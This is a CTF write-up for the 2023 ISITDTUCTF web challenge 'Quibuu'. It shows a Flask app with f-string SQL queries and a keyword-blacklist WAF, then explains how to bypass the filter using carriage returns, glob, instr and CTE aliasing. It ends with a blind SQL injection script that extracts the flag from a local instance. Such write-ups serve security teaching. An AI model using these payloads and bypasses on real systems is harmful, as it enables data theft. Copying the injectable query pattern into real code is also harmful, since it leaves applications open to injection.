 ```yaml
---
title: 2023 ISITDTUCTF - Quibuu
date: 2023-10-15 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_ISITDTUCTF
  - Web Exploitation
  - SQL injection
---
```


## Overview

* 30 solves / 127 points
* Author: Discord _onsra_

## Description

> Hmmmmm, u are QuiBuu, right? xD

### Attached

[quibuu_dist.zip](attached/quibuu_dist.zip)

This is ```app.py``` file
```py
from flask import Flask, render_template, request
import random
import re
import urllib.parse
import sqlite3

app = Flask(__name__)


def waf_cuc_chill(ans):
    # idk, I thought too much of a good thing
    ans = urllib.parse.quote(ans)
    pattern = re.compile(r'(and|0r|substring|subsrt|if|case|cast|like|>|<|(?:/\%2A.*?\%2A/)|\\|~|\+|-|when|then|order|name|url|;|--|into|limit|update|delete|drop|join|version|not|hex|load_extension|round|random|lower|replace|likely|iif|abs|char|unhex|unicode|trim|offset|count|upper|sqlite_version\(\)|#|true|false|max|\^|length|all|values|0x.*?|left|right|mid|%09|%0A|%20|\t)', re.IGNORECASE)
    
    if pattern.search(ans):
        return True
    return False

@app.route("/", methods=["GET"])
def index():
    ran = random.randint(1, 11)
    id, ans= request.args.get("id", default=f"{ran}"), request.args.get("ans", default="")

    if not (id and str(id).isdigit() and int(id) >= 1 and int(id) <= 1301):
        id = 1
    

    db = sqlite3.connect("hehe.db")
    cursor = db.execute(f"SELECT URL FROM QuiBuu WHERE ID = {id}")
    img = cursor.fetchone()[0]

    if waf_cuc_chill(ans):
        return render_template("hack.html")
    
    cursor = db.execute(f"SELECT * FROM QuiBuu where ID = {id} AND Name = '{ans}'")
    result = cursor.fetchall()

    check = 0
    if result != []:
        check = 1
    elif result == [] and ans != "" :
        check = 2

    return render_template("index.html", id=id, img=img, ans=ans, check=check)

if __name__ == "__main__":
    app.run()
```

## Analyzation

Check around, the flag is in the database, therefore our target is sqli.
```
id = 1337, name=ISITDTU, URL = flag
```

There are two sql queries:

```py
db = sqlite3.connect("hehe.db")
cursor = db.execute(f"SELECT URL FROM QuiBuu WHERE ID = {id}")
img = cursor.fetchone()[0]
```

and

```py
    cursor = db.execute(f"SELECT * FROM QuiBuu where ID = {id} AND Name = '{ans}'")
    result = cursor.fetchall()

    check = 0
    if result != []:
        check = 1
    elif result == [] and ans != "" :
        check = 2
```

The first sql query is useless since ```id``` will never reach ```1337```.
```py
if not (id and str(id).isdigit() and int(id) >= 1 and int(id) <= 1301):
    id = 1
```

So the second query will be used, and to the ```ans``` variable. In this problem, error-based sqli works fine.

But we have to bypass ```waf``` first
```py
if waf_cuc_chill(ans):
    return render_template("hack.html")
```

These are some vulnerabilities of waf

- Two columns' name in the database are blocked, ```name``` and ```url```,  column ```id``` and the table name ```QuiBuu``` are not blocked.

- Keywords in a query, such as ```select```, ```from```, ```where```, and others, are not blocked.

- It blocks almost all whitespace characters, except for ```\r```.

- The input string is not escaped.

- Keyword ```like``` is blocked, but keyword ```glob``` can be used instead.

- ```substring()``` is blocked, but ```instr()``` is not. This is the keypoint.

## Exploitation

Firstly, my idea was

```py
id = 10
ans = "Naruto' union select * from QuiBuu where url glob \'ISIT*"
ans = ans.replace(" ", "\r")
```

I tried to select ```url``` column with many ways. But it was not work since the keyword was blocked. Then I created a temporary table to use alias
```py
id = 10
ans = "Naruto' OR (WITH cte(c1,c2,c3) AS (SELECT * FROM QuiBuu) SELECT instr(c3,'{flag_guess}') FROM cte WHERE c1='1337') OR id='200000"
ans = ans.replace(" ", "\r")
```

- If ```flag_guess``` is correct, the query will return all data in tables.

Another payload using ```GROUP_CONCAT()```.

```py
id = 10
ans = "a' OR (SELECT instr(( SELECT GROUP_CONCAT(\"pet\") FROM ( SELECT \"admin\", \"user\", \"pet\" UNION SELECT * FROM QuiBuu WHERE id=1337 ) ), \"{flag_guess}\"))/*"
ans = ans.replace(" ", "\r")
```

Now the third column is no longer ```url```, but ```pet```.

## Solution

```py
import requests
import string

ALPHABET = "_}" + string.ascii_lowercase + string.digits + string.ascii_uppercase
URL = "http://localhost:1301/?id={}&ans={}"

id = 10
ans = "Naruto' OR (WITH cte(c1,c2,c3) AS (SELECT * FROM QuiBuu) SELECT instr(c3,'{}') FROM cte WHERE c1='1337') OR id='200000"
ans = ans.replace(" ", "\r")

flag = "ISITDTU{"
while "}" not in flag:
    for c in ALPHABET:
        response = requests.get(URL.format(id, ans.format(flag + c)))
        if b"Haha QuiBuu" in response.content:
            flag = flag + c
            print(f"-----------flag_guess: {flag} ------------")
            break
print(URL.format(id, ans.format(flag + c)).encode())
```